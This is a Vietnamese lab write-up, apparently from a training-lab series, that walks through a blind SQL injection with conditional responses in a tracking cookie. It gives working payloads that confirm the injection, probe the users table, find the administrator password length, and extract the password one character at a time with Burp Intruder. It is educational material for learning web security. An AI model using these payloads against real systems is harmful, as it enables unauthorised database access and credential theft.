# 🔐 Lab 11: Blind SQL injection with conditional responses

<div align="center">


</div>

---

## Mô tả

Lab này chứa lỗ hổng Blind SQL injection. Ứng dụng sử dụng tracking cookie để phân tích và thực hiện truy vấn SQL chứa giá trị của cookie được gửi lên.

Kết quả của truy vấn SQL không được trả về và không có thông báo lỗi nào được hiển thị. Tuy nhiên, ứng dụng sẽ hiển thị thông báo "Welcome back" trên trang nếu truy vấn trả về bất kỳ hàng nào.

Cơ sở dữ liệu chứa một bảng khác có tên là `users`, với các cột `username` và `password`. Chúng ta cần khai thác lỗ hổng Blind SQL injection để tìm ra mật khẩu của người dùng administrator.

**Mục tiêu**: Đăng nhập với tài khoản administrator.

**Ghi chú**: Có thể giả định rằng mật khẩu chỉ chứa các ký tự chữ thường và số.

## Các bước thực hiện

### Bước 1: Xác định lỗ hổng SQL injection

1. Mở Burp Suite và bật ***intercept***
2. Truy cập trang chủ của cửa hàng
3. Sử dụng Burp Suite để chặn và sửa đổi request chứa cookie `TrackingId`

### Bước 2: Kiểm tra điều kiện boolean cơ bản

**Test 1**: Sửa đổi cookie thành:
```
TrackingId=xyz' AND '1'='1
```


- Kết quả: Thông báo "Welcome back" xuất hiện trong response
- Kết luận: Điều kiện TRUE hoạt động

**Test 2**: Sửa đổi cookie thành:
```
TrackingId=xyz' AND '1'='2
```


- Kết quả: Thông báo "Welcome back" KHÔNG xuất hiện
- Kết luận: Điều kiện FALSE hoạt động, xác nhận có thể test các điều kiện boolean

### Bước 3: Xác nhận sự tồn tại của bảng users

Sửa đổi cookie thành:
```
TrackingId=xyz' AND (SELECT 'a' FROM users LIMIT 1)='a
```


- Kết quả: Điều kiện trả về TRUE
- Kết luận: Bảng `users` tồn tại trong database

### Bước 4: Xác nhận user administrator tồn tại

Sửa đổi cookie thành:
```
TrackingId=xyz' AND (SELECT 'a' FROM users WHERE username='administrator')='a
```


- Kết quả: Điều kiện trả về TRUE
- Kết luận: User `administrator` tồn tại

### Bước 5: Xác định độ dài mật khẩu

**Phương pháp**: Sử dụng hàm `LENGTH()` để kiểm tra độ dài mật khẩu

Bắt đầu với:
```
TrackingId=xyz' AND (SELECT 'a' FROM users WHERE username='administrator' AND LENGTH(password)>1)='a
```


Tiếp tục kiểm tra với các giá trị tăng dần:
```
TrackingId=xyz' AND (SELECT 'a' FROM users WHERE username='administrator' AND LENGTH(password)>2)='a
TrackingId=xyz' AND (SELECT 'a' FROM users WHERE username='administrator' AND LENGTH(password)>3)='a
...
TrackingId=xyz' AND (SELECT 'a' FROM users WHERE username='administrator' AND LENGTH(password)>20)='a
```



- Khi thông báo "Welcome back" biến mất, ta đã xác định được độ dài mật khẩu
- **Kết quả**: Mật khẩu có độ dài **20 ký tự**

### Bước 6: Brute-force từng ký tự của mật khẩu

Sau khi xác định độ dài, ta cần test từng ký tự tại mỗi vị trí. Do số lượng request lớn, sử dụng **Burp Intruder**.

#### 6.1. Cấu hình Burp Intruder

1. Gửi request đang làm việc sang Burp Intruder (chuột phải → Send to Intruder)

2. Sửa giá trị cookie thành:
```
TrackingId=xyz' AND (SELECT SUBSTRING(password,1,1) FROM users WHERE username='administrator')='a
```

Giải thích: 
- `SUBSTRING(password,1,1)`: Trích xuất 1 ký tự từ vị trí thứ 1 của mật khẩu
- So sánh với ký tự cụ thể để test

3. Đánh dấu payload position:
   - Chọn ký tự `a` cuối cùng trong cookie
   - Click nút "Add §" để thêm marker
   - Kết quả:
```
TrackingId=xyz' AND (SELECT SUBSTRING(password,1,1) FROM users WHERE username='administrator')='§a§
```

#### 6.2. Cấu hình Payloads

1. Trong tab Payloads, chọn **Brup forcer**

#### 6.3. Cấu hình Grep - Match

1. Mở tab **Settings**
2. Trong phần **Grep - Match**:
   - Xóa các entry hiện có
   - Thêm giá trị: `Welcome back`
3. Điều này giúp xác định khi nào tìm được ký tự đúng


#### 6.4. Thực hiện Attack

1. Click nút **Start attack** để bắt đầu
2. Xem kết quả trong cột "Welcome back"


#### 6.5. Lặp lại cho các vị trí tiếp theo

Để tìm ký tự tại vị trí thứ 2:
```
TrackingId=xyz' AND (SELECT SUBSTRING(password,2,1) FROM users WHERE username='administrator')='§a§
```

Tiếp tục với vị trí 3, 4, 5... cho đến hết 20 ký tự:
```
TrackingId=xyz' AND (SELECT SUBSTRING(password,3,1) FROM users WHERE username='administrator')='§a§
TrackingId=xyz' AND (SELECT SUBSTRING(password,4,1) FROM users WHERE username='administrator')='§a§
...
TrackingId=xyz' AND (SELECT SUBSTRING(password,20,1) FROM users WHERE username='administrator')='§a§
```

### Bước 7: Đăng nhập với tài khoản administrator

1. Sau khi thu thập đủ 20 ký tự, ghép lại thành mật khẩu hoàn chỉnh
2. Click "My account" để mở trang đăng nhập
3. Đăng nhập với:
   - Username: `administrator`
   - Password: `[mật khẩu đã tìm được]`

### Bước 8: Hoàn thành lab

Sau khi đăng nhập thành công với tài khoản administrator, lab sẽ được đánh dấu là hoàn thành.


